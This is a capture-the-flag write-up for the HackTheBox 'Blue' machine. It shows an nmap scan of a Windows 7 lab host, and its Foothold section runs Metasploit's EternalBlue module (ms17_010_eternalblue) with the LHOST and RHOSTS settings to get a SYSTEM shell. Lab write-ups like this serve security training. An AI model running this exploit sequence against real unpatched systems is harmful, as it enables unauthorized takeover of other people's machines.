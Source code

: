 ```yaml
---
title: "HackTheBox - Blue"
author: Nasrallah
description: ""
date: 2022-07-29 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, rce, smb]
img_path: /assets/img/hackthebox/machines/blue
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Blue](https://app.hackthebox.com/machines/Blue) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.40 (10.10.10.40)
Host is up (0.14s latency).                                                    
Not shown: 991 closed tcp ports (reset) 
PORT      STATE SERVICE      VERSION                                                                                                                          
135/tcp   open  msrpc        Microsoft Windows RPC                                                                                                            
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                     
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC           
49153/tcp open  msrpc        Microsoft Windows RPC             
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC                             
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC                                                                                                            
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-08-09T10:02:42
|_  start_date: 2022-08-09T09:57:35
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-08-09T11:02:39+01:00
|_clock-skew: mean: -19m57s, deviation: 34m37s, median: 1s
```

We have a windows machine with SMB open, as well as other things.

## **Foothold**

Since the machine is named `Blue` and we have a windows machine, i directly though of the Eternal-Blue exploit.

Let's fire up `Metasploit` and use the `ms17_010_eternalblue` module.

![](1.png)

Now we need to set the required option.

```bash
set LHOST tun0

set rhosts 10.10.10.40
```

Type `exploit` to run the module.

![](2.png)

Great! We got a shell, and we're Authority System so no need for privilege escalation.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
